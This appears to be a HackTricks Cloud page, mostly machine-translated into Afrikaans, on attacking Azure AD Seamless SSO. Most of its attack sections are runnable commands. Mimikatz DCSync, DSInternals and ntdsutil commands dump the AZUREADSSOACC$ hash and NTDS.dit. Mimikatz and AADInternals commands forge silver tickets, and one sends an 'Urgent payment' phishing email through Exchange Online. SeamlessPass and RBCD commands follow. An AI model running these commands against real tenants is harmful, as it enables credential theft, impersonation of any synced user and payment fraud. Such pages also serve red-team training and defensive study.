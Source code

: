 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) teken outomaties **gebruikers in wanneer hulle op hul korporatiewe toestelle** wat aan jou korporatiewe netwerk gekoppel is. Wanneer geaktiveer, **hoef gebruikers nie hul wagwoorde in te tik om in te teken op Azure AD nie**, en gewoonlik, nie eens hul gebruikersname nie. Hierdie funksie bied jou gebruikers maklike toegang tot jou wolk-gebaseerde toepassings sonder om enige addisionele on-premises komponente te benodig.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Basies teken Azure AD Seamless SSO **gebruikers** in wanneer hulle **op 'n on-prem domein-verbonden PC** is.

Dit word deur beide [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) en [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) ondersteun.

Desktop SSO gebruik **Kerberos** vir verifikasie. Wanneer geconfigureer, skep Azure AD Connect 'n **rekenaarrekening genaamd AZUREADSSOACC`$`** in on-prem AD. Die wagwoord van die `AZUREADSSOACC$` rekening word **as plain-text na Azure AD gestuur** tydens die konfigurasie.

Die **Kerberos kaartjies** is **geënkripteer** met die **NTHash (MD4)** van die wagwoord en Azure AD gebruik die gestuurde wagwoord om die kaartjies te ontsleutel.

**Azure AD** stel 'n **eindpunt** (https://autologon.microsoftazuread-sso.com) beskikbaar wat Kerberos **kaartjies** aanvaar. Die blaaiert van die domein-verbonden masjien stuur die kaartjies na hierdie eindpunt vir SSO.

### On-prem -> cloud

Die **wagwoord** van die gebruiker **`AZUREADSSOACC$` verander nooit**. Daarom kan 'n domein admin die **hash van hierdie rekening** kompromenteer, en dit dan gebruik om **silwer kaartjies** te skep om met **enige on-prem gebruiker gesinkroniseer** aan Azure te verbind:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Met die hash kan jy nou **silwer kaartjies genereer**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Begin die Blaaier:** Mozilla Firefox moet gelaai word.
2. **Konfigureer die Blaaier:**
* Navigeer na **`about:config`**.
* Stel die voorkeur vir [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) op die gespesifiseerde [waardes](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Toegang tot die Webtoepassing:**
* Besoek 'n webtoepassing wat geïntegreer is met die organisasie se AAD-domein. 'n Algemene voorbeeld is [Office 365](https://portal.office.com/).
4. **Verifikasieproses:**
* By die aanmeldskerm moet die gebruikersnaam ingevoer word, terwyl die wagwoordveld leeg gelaat word.
* Om voort te gaan, druk óf TAB óf ENTER.

{% hint style="success" %}
Dit omseil nie MFA as dit geaktiveer is nie
{% endhint %}

#### Opsie 2 sonder dcsync - SeamlessPass

Dit is ook moontlik om hierdie aanval **sonder 'n dcsync-aanval** uit te voer om meer stil te wees soos [in hierdie blogpos verduidelik](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Hiervoor het jy net een van die volgende nodig:

* **'n Gecompromitteerde gebruiker se TGT:** Selfs al het jy nie een nie, maar die gebruiker was gecompromitteer, kan jy een kry met die vals TGT-delegasie truuk wat in baie gereedskap geïmplementeer is soos [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) en [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Goue Tiket**: As jy die KRBTGT-sleutel het, kan jy die TGT wat jy vir die aangevalde gebruiker nodig het, skep.
* **'n Gecompromitteerde gebruiker se NTLM-hash of AES-sleutel:** SeamlessPass sal met die domeinbeheerder kommunikeer met hierdie inligting om die TGT te genereer.
* **AZUREADSSOACC$ rekening NTLM-hash of AES-sleutel:** Met hierdie inligting en die gebruiker se Veiligheidsidentifiseerder (SID) om aan te val, is dit moontlik om 'n dienskaartjie te skep en met die wolk te verifieer (soos in die vorige metode uitgevoer).

Laastens, met die TGT is dit moontlik om die gereedskap [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) te gebruik met:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Verder inligting om Firefox te stel om met naatlose SSO te werk, kan [**gevind word in hierdie blogpos**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Skep Kerberos-tickets vir slegs-cloud gebruikers~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

As die Active Directory-administrateurs toegang tot Azure AD Connect het, kan hulle **SID vir enige cloud-gebruiker stel**. Op hierdie manier kan Kerberos **tickets** ook **vir slegs-cloud gebruikers geskep word**. Die enigste vereiste is dat die SID 'n behoorlike [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) is.

{% hint style="danger" %}
Die verandering van SID van slegs-cloud admin gebruikers is nou **geblokkeer deur Microsoft**.\
Vir inligting, kyk [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Hulpbron-gebaseerde Beperkte Delegasie <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Enigeen wat rekenaarrekeninge (`AZUREADSSOACC$`) in die houer of OU waarin hierdie rekening is, kan **'n hulpbron-gebaseerde beperkte delegasie oor die rekening konfigureer en dit toegang gee**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ek is in jou wolk, lees almal se e-posse - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

